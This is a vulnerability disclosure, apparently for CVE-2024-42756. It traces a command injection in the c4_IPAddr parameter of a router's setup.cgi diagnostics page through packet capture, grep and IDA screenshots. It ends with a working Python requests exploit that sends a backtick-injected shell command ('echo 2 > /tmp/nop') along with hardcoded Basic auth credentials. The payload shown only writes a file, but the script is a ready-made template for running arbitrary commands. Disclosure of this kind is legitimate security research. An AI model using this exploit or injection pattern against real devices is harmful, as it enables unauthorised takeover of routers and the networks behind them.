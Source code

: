 ## Command injection exists on the Diagnostics page of web
## ![1721830818130.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830823860-f5b57545-c9d4-455a-9471-c041145deb90.png#averageHue=%23fbfafa&clientId=u2f508ae5-ad4e-4&from=paste&height=667&id=u6ad3a6b3&originHeight=817&originWidth=1959&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=178745&status=done&style=none&taskId=u2dc9df19-997d-4ab1-8f0f-59567da8a1d&title=&width=1599.85)Parameters discovered by capturing packets are passed as c4_IPAddr
![1721830893722.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830898585-93b51d16-5c9b-43cd-8c62-e6760b1bfc30.png#averageHue=%23f6f5f4&clientId=u2f508ae5-ad4e-4&from=paste&height=481&id=u9a9dc098&originHeight=589&originWidth=1511&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=180889&status=done&style=none&taskId=u191977f1-3747-4a61-bd28-5b554321602&title=&width=1233.9833333333333)
## grep -r "c4_IPAddr"
## The string c4_IPAddr was found in the binary file setup.cgi
## ![1721830988983.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721830993358-8ed1a10d-12ff-4ab6-980c-67520114154f.png#averageHue=%232f0b25&clientId=u2f508ae5-ad4e-4&from=paste&height=147&id=uc384f1dc&originHeight=180&originWidth=989&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=54506&status=done&style=none&taskId=u7fd9f142-063c-4b91-9664-aa55c9febd3&title=&width=807.6833333333333)c4_IPAddr found in IDA
## ![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831173391-424fccd7-17bf-4aa3-af43-c74c3ee326a7.png#averageHue=%23f6f4f2&clientId=u2f508ae5-ad4e-4&from=paste&height=81&id=u127d49b3&originHeight=99&originWidth=492&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=7500&status=done&style=none&taskId=uadf28c54-c85f-487b-8f09-f0d4a58bc1a&title=&width=401.8)![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831178917-d7207407-09fe-433a-8801-17e72bd999bb.png#averageHue=%23e1b872&clientId=u2f508ae5-ad4e-4&from=paste&height=245&id=u7b48214b&originHeight=300&originWidth=1074&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=68847&status=done&style=none&taskId=ue6fadf4e-694e-480d-8a4d-bafb5175091&title=&width=877.1)Locate the ping_test function
## Found only filtered;
## ![图片.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831709526-010cc455-1465-4b99-9aaf-6c41f38ce04e.png#averageHue=%23fbf9f9&clientId=u2f508ae5-ad4e-4&from=paste&height=357&id=u048c6c59&originHeight=437&originWidth=723&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=45688&status=done&style=none&taskId=uee7d6df5-a244-4082-8537-6bba71a4186&title=&width=590.4499999999999)
## Construct exp
## ![1721831347990.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831355775-8653b8c6-35bb-40e5-a7df-b4247154883b.png#averageHue=%23faf9f9&clientId=u2f508ae5-ad4e-4&from=paste&height=865&id=u13a39b91&originHeight=1059&originWidth=945&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=135712&status=done&style=none&taskId=u53475e1f-a6b3-4cab-8158-c5002861fbb&title=&width=771.75)Description Directory nop was successfully written
## ![1721831375064.png](https://cdn.nlark.com/yuque/0/2024/png/43672949/1721831382760-a39f9648-4617-4181-bc1e-547f21f62775.png#averageHue=%232d0923&clientId=u2f508ae5-ad4e-4&from=paste&height=185&id=u11c37f75&originHeight=227&originWidth=670&originalType=binary&ratio=1.2244897959183674&rotation=0&showTitle=false&size=29346&status=done&style=none&taskId=u701b1eff-7b45-4d37-820e-d11399feb68&title=&width=547.1666666666666)
exp
import requests

burp0_url = "[http://192.168.0.1:80/setup.cgi"](http://192.168.0.1:80/setup.cgi")
burp0_headers = {"Cache-Control": "max-age=0", "Authorization": "Basic YWRtaW46cGFzc3dvcmQ=", "Upgrade-Insecure-Requests": "1", "Origin": "http://192.168.0.1", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "[http://192.168.0.1/diag.htm&todo=cfg_init",](http://192.168.0.1/diag.htm&todo=cfg_init",) "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
burp0_data = {"IPAddr1": "192", "IPAddr2": "168", "IPAddr3": "0", "IPAddr4": "2", "ping": "Ping", "todo": "ping_test", "this_file": "diag.htm", "next_file": "diagping.htm", "c4_IPAddr": "192.168.0.2`echo 2 > /tmp/nop`"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
CVE-2024-42756
